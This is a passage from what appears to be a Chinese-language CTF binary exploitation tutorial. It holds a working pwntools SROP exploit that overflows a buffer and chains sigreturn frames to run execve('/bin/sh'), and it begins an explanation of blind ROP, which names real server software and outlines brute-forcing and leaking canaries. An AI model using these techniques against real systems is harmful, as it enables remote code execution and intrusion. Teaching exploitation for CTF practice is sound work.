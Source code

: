```python
frame.rdx=buf
frame.rcx=0x200
frame.rsp=buf-0x10
frame.rbp=buf
frame.rip=syscall_leave

io.recv()
io.send(b"a"*0x38+p64(pop_rdi)+p64(0xf)+p64(syscall)+bytes(frame))
#38是溢出，pop rdi是64位要把参数设置，0xf==15是signal的系统调用号，然后去调用signal，使用syscall，然后就是正常的srop生成。
#这里写的是syscall(0,0,0x404020,0x200)调用往date段写入。

frame=SigreturnFrame()
frame.rdi=59
frame.rsi=buf
frame.rdx=0
frame.rcx=0
frame.rsp=buf
frame.rip=syscall
io.send(b"/bin/sh\x00"+p64(pop_rdi)+p64(0xf)+p64(syscall)+bytes(frame))
#在bss段写入bin/sh，再次利用signal机制，写入srop，执行syscall(59,"/bin/sh",0,0)

io.interactive()
```

## BROP

全名blind-rop，又叫做盲打。 

### 原理讲解：

BROP 是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。 

**攻击条件**

1. 程序必须存在栈溢出漏洞
2. 服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有 ASLR 保护，但是其只是在程序最初启动的时候有效果）。目前 nginx, MySQL, Apache, OpenSSH 等服务器应用都是符合这种特性的。

**攻击原理**

 目前，大部分应用都会开启 ASLR、NX、Canary 保护。这里我们分别讲解在 BROP 中如何绕过这些保护，以及如何进行攻击。 

### **基本思路**：

在 BROP 中，基本的遵循的思路如下（使用  《HCTF2016 的出题人失踪了》 这题）：

- 判断栈溢出长度

	- 暴力枚举

- Stack Reading

	 堆栈读取

	- 获取栈上的数据来泄露 canaries，以及 ebp 和返回地址。
